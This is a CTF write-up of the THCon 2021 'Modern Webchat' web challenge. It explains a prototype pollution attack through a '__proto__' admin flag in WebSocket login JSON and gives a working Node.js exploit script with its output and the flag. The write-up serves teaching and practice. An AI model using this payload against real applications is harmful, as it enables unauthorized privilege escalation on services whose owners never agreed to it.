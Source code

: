 ```yaml
---
title: THCon CTF 2021 Modern Webchat
type: page
description: writeups of THCon CTF.
topic: ctf
Author: bluesam
date: 2021-06-12
---
```



# Modern Webchat
#### Web
(250 points/ 5 solves)

# Description

IRC is a relic of the past.

# Solution

We visit the website and we land on a web chat where we can choose a nickname and a color. We can login and then be able to send messages.

From time to time we receive a message from the admin which says :

    `[admin] LePireBot: Message restricted to administrators.`

Obviously we must fake the fact that we are admin in order to see the message.

When we start investigating on the app, we quickly find out a main.js file in the source code of the page.
```js
(() => {
 const escape = (string) =>
   string.replace(/[&<>"']/g, (chr) => {
     return {
       "&": "&amp;",
       "<": "&lt;",
       ">": "&gt;",
       '"': "&quot;",
       "'": "&#39;",
     }[chr];
   });

 const ws = new WebSocket("ws://" + location.host);

 const $loginForm = document.querySelector("#login-form");
 const $messageForm = document.querySelector("#message-form");
 const $messages = document.querySelector("#messages");

 const createMessage = (data) => {
   const $el = document.createElement("div");
   $el.className = "message";
   $el.innerHTML = `${
     data.user.admin ? "<strong>[admin]</strong> " : ""
   }<strong style="color:${data.user.color}">${escape(
     escape(data.user.nickname)
   )}</strong>: ${
     data.messageRestricted
       ? "<i>Message restricted to administrators.</i>"
       : escape(data.message)
   }`;
   return $el;
 };

 const displayConnectionError = () => {
   $messages.appendChild(
     createMessage({
       user: { nickname: "Error", color: "#ff0000" },
       message: "Connection closed unexpectedly. Please refresh the page.",
     })
   );
 };

 ws.onmessage = (e) => {
   const shouldScroll =
     $messages.scrollTop + $messages.clientHeight === $messages.scrollHeight;
   const data = JSON.parse(e.data);
   $messages.appendChild(createMessage(data));
   if (shouldScroll) {
     $messages.scrollTop = $messages.scrollHeight;
   }
   if ("successfulLogin" in data) {
     $loginForm.hidden = true;
     $messageForm.hidden = false;
   }
 };

 ws.onerror = ws.onclose = (e) => displayConnectionError();

 $loginForm.addEventListener("submit", (e) => {
   e.preventDefault();
   if (ws.readyState !== ws.OPEN) {
     return;
   }
   ws.send(
     JSON.stringify({
       nickname: $loginForm.elements.nickname.value,
       color: $loginForm.elements.color.value,
     })
   );
 });

 $messageForm.addEventListener("submit", (e) => {
   e.preventDefault();
   if (ws.readyState !== ws.OPEN) {
     return;
   }
   ws.send(
     JSON.stringify({
       message: $messageForm.elements.message.value,
     })
   );
   $messageForm.elements.message.value = "";
 });
})();
```
So basically what we learned from this file is that the chat is based on websockets and communicating using json data.

At this point we can assume that the goal of the challenge is not to perform an xss because this escape function will well prevent it.
```js
const escape = (string) =>
   string.replace(/[&<>"']/g, (chr) => {
     return {
       "&": "&amp;",
       "<": "&lt;",
       ">": "&gt;",
       '"': "&quot;",
       "'": "&#39;",
     }[chr];
   });
```
But we also find out that there is an admin property in the user class in `createMessage` function.

While debugging the websockets we can also see this admin property in the message received from the bot.
```js
{
  "user": { "nickname": "LePireBot", "color": "#ECA400", "admin": true },
  "messageRestricted": true
}
```
So the plan is to register as admin by setting admin to `true`, for that we gonna try to just append this at the end of the json data. A classic registration looks like :
```js
{"nickname": "xl00t", "color": "#1337FF"}
```
So our first payload is :
```js
{"nickname": "xloot", "color": "#1337FF", "admin": true}
```
But as suspected the payload will not be so simple.

After some research into the potential vulnerability of J`SON.parse()`, we find somes articles about *Prototype Pollution* in JS.

In simple terms this vulnerabity will allow us to add the admin property by using the prototype property of the user object.

Accessing a prototype in javascript can be done with `prototype` or `__proto__` property.

With that we can access object properties in different ways :

- `user.nickname`
- `user.prototype.nickname`
- `user.\_\_proto__.nickname`

Lets wrap up everything we learnt so far and craft our final payload :
```js
{
    "nickname": "xloot",
    "color": "#1337ff",
    "__proto__": {
        "admin": true
    }
}
```
We reuse and modify the `main.js` file we saw earlier in order to send our payload and wait for the bot message.
```js
const WebSocket = require('ws');

const ws = new WebSocket("ws://remote1.thcon.party:10001");
var input = process.openStdin();

ws.onmessage = (e) => {
  const data = JSON.parse(e.data);
  console.log(data);
};

input.addListener("data", function(mes) {
    if (ws.readyState !== ws.OPEN)
        return;

    var payload = '{"nickname": "xloot","color": "#1337ff","__proto__": {"admin": true}}';
    ws.send(payload);

    var messageJson = {message: mes.toString()};
    ws.send(JSON.stringify(messageJson));
});
```
Now we launch this script and enter a message in order to send our payload.
```js
xl00t@DESKTOP:~/thcon/modern-chat$ node main.js
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'Connected to the chat room.'
}
Gimme Flag
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'xloot joined the chat room! 2 people connected.',
  successfulLogin: true
}
{
  user: { nickname: 'xloot', color: '#1337ff' },
  message: 'Gimme Flag\n'
}
{
  user: { nickname: 'LePireBot', color: '#ECA400', admin: true },
  message: 'Well done! Here is the flag: THCon21{__1000_points_pour_Gryffondor__}'
}
```
Well , we got the flag `THCon21{__1000_points_pour_Gryffondor__}` !
References:

    https://theflyingmantis.medium.com/javascript-a-prototype-based-language-7e814cc7ae0b
    https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Inheritance
    https://medium.com/intrinsic/javascript-prototype-poisoning-vulnerabilities-in-the-wild-7bc15347c96
    https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

